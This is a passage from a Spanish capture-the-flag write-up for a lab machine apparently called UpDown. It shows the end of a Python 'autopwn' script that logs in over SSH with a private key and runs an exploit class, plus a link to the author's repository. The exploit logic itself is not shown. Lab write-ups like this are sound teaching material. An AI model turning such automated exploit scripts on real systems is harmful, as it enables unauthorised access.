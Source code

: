 ```python

			client.connect(target_host, port=22, username=ssh_username, pkey=ssh_private_key)

			return client

		except Exception as error:
			sys.exit('\n[x] Error: %s' % error)

# Main flow
if __name__ == '__main__':
	ascii_tittle = """
         _, _,_ ___  _, __, _  _ _, _   _,_ __, __,  _, _  _ _, _
        /_\ | |  |  / \ |_) |  | |\ |   | | |_) | \ / \ |  | |\ |
        | | | |  |  \ / |   |/\| | \|   | | |   |_/ \ / |/\| | \|
        ~ ~ `~'  ~   ~  ~   ~  ~ ~  ~   `~' ~   ~    ~  ~  ~ ~  ~
                                                            by marss
 	"""
	
	print(ascii_tittle)

	exploit = Exploit()
	
	exploit.run()
```

Ahora solo lo ejecutamos y conseguimos la flag:

![Autopwn](autopwn.png){: .shadow}

> Puedes encontrar el script en mi repositorio: [https://github.com/E1P0TR0](https://github.com/E1P0TR0/CVE-Machines_htb/tree/main/Auto-tools_Updown)
{: .prompt-info}
